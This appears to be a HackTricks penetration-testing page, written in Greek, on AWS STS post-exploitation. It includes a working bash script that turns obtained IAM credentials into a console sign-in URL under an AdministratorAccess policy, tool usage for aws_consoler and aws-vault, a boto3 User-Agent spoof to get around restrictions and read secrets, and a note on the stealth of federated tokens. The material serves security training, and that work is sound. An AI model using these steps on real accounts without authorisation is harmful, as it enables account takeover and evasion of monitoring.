 # AWS - STS Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## STS

Για περισσότερες πληροφορίες:

{{#ref}}
../aws-services/aws-iam-enum.md
{{#endref}}

### From IAM Creds to Console

Εάν καταφέρατε να αποκτήσετε κάποια IAM credentials, ίσως σας ενδιαφέρει να αποκτήσετε πρόσβαση στην **web console** χρησιμοποιώντας τα παρακάτω εργαλεία.\
Σημειώστε ότι ο χρήστης/ρόλος πρέπει να έχει την άδεια **`sts:GetFederationToken`**.

#### Προσαρμοσμένο script

Το ακόλουθο script θα χρησιμοποιήσει το default profile και μια default AWS location (not gov and not cn) για να σας δώσει ένα signed URL που μπορείτε να χρησιμοποιήσετε για να συνδεθείτε στο web console:
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
--get \
--data-urlencode "Action=getSigninToken" \
--data-urlencode "SessionDuration=43200" \
--data-urlencode "Session=$json_creds"
)
signin_token=$(echo -n $resp | jq -r '.SigninToken' | tr -d '\n' | jq -sRr @uri)


# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
#### aws_consoler

Μπορείτε να **δημιουργήσετε έναν σύνδεσμο για την web κονσόλα** με [https://github.com/NetSPI/aws_consoler](https://github.com/NetSPI/aws_consoler).
```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```
> [!WARNING]
> Βεβαιωθείτε ότι ο IAM user έχει την άδεια `sts:GetFederationToken`, ή παρέχετε έναν role για να αναλάβει.

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) είναι ένα εργαλείο για την ασφαλή αποθήκευση και πρόσβαση σε διαπιστευτήρια AWS σε περιβάλλον ανάπτυξης.
```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```
> [!NOTE]
> Μπορείτε επίσης να χρησιμοποιήσετε **aws-vault** για να αποκτήσετε μία **συνεδρία κονσόλας προγράμματος περιήγησης**

### **Παράκαμψη περιορισμών User-Agent από Python**

Αν υπάρχει **περιορισμός στην εκτέλεση συγκεκριμένων ενεργειών βάσει του User-Agent** που χρησιμοποιείται (π.χ. περιορισμός της χρήσης της βιβλιοθήκης python boto3 με βάση τον User-Agent), είναι δυνατό να χρησιμοποιήσετε την προηγούμενη τεχνική για να **συνδεθείτε στην web console μέσω browser**, ή μπορείτε απευθείας να **τροποποιήσετε τον boto3 User-Agent** κάνοντας:
```bash
# Shared by ex16x41
# Create a client
session = boto3.Session(profile_name="lab6")
client = session.client("secretsmanager", region_name="us-east-1")

# Change user agent of the client
client.meta.events.register( 'before-call.secretsmanager.GetSecretValue', lambda params, **kwargs: params['headers'].update({'User-Agent': 'my-custom-tool'}) )

# Perform the action
response = client.get_secret_value(SecretId="flag_secret") print(response['SecretString'])
```
### **`sts:GetFederationToken`**

Με αυτήν την άδεια είναι δυνατό να δημιουργηθεί μια ομοσπονδιακή ταυτότητα για τον χρήστη που την εκτελεί, περιορισμένη στις άδειες που διαθέτει αυτός ο χρήστης.
```bash
aws sts get-federation-token --name <username>
```
Το token που επιστρέφεται από sts:GetFederationToken ανήκει στην federated identity του χρήστη που το καλεί, αλλά με περιορισμένα δικαιώματα. Ακόμη κι αν ο χρήστης έχει administrator rights, ορισμένες ενέργειες, όπως το list IAM users ή το attach policies, δεν μπορούν να εκτελεστούν μέσω του federated token.

Επιπλέον, αυτή η μέθοδος είναι κάπως πιο stealthy, αφού ο federated user δεν εμφανίζεται στο AWS Portal — μπορεί να παρατηρηθεί μόνο μέσω CloudTrail logs ή εργαλείων παρακολούθησης.

{{#include ../../../banners/hacktricks-training.md}}
